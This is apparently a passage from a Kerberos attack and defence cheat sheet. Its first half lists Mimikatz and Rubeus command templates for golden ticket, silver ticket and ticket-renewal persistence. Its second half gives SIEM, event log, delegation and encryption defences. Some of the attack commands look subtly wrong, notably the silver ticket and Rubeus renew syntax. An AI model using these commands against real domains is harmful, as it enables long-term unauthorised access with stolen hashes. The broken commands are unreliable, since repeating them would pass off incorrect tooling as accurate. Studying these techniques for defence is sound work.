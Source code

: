## Advanced Persistence Techniques

#### Persistent Access via Golden Tickets
- **Mimikatz (Golden Ticket)**:
  ```powershell
  kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<NTLM_hash> /id:<user_id> /renewmax:<renew_duration>
  ```
  A Golden Ticket attack with a specified renewal period to maintain long-term access.

#### Persistent Access via Silver Tickets
- **Mimikatz (Silver Ticket)**:
  ```powershell
  tgt::deleg /domain:<domain> /sid:<SID> /target:<target_server> /rc4:<NTLM_hash> /user:<username> /service:<service_name>
  ```
  A Silver Ticket attack allowing long-term persistence on a specific service.

#### Persistence via Kerberos Ticket Renewal
- **Rubeus Renew**:
  ```powershell
  Rubeus.exe renew /target:<target_service> /user:<username> /rc4:<NTLM_hash> /renewmax:<renew_duration>
  ```
  Maintains persistence by periodically renewing Kerberos tickets.

## Defense Strategies Against Kerberos Attacks

#### Detecting Kerberoasting
- **SIEM Monitoring**:
  Implement rules to detect abnormal activity related to Kerberos service ticket requests, particularly for accounts that typically do not request service tickets.

#### Detecting Golden Ticket Creation
- **Event Log Monitoring**:
  Monitor for Event ID 4768 and 4771 with suspicious `krbtgt` account activity, which could indicate Golden Ticket creation.

#### Mitigating Unconstrained Delegation
- **Restricting Delegation Rights**:
  Remove unconstrained delegation rights from accounts and machines, and prefer constrained delegation where necessary.

#### Enforcing Stronger Encryption
- **Configure Group Policies**:
  Enforce AES encryption for Kerberos across the domain, reducing the risk of attacks relying on weaker RC4 encryption.

#### Monitoring and Responding to Kerberos Abuse
- **SIEM and UBA**:
  Implement User Behavior Analytics (UBA) to detect anomalies in Kerberos ticket requests and authentications, helping to identify potential attacks.
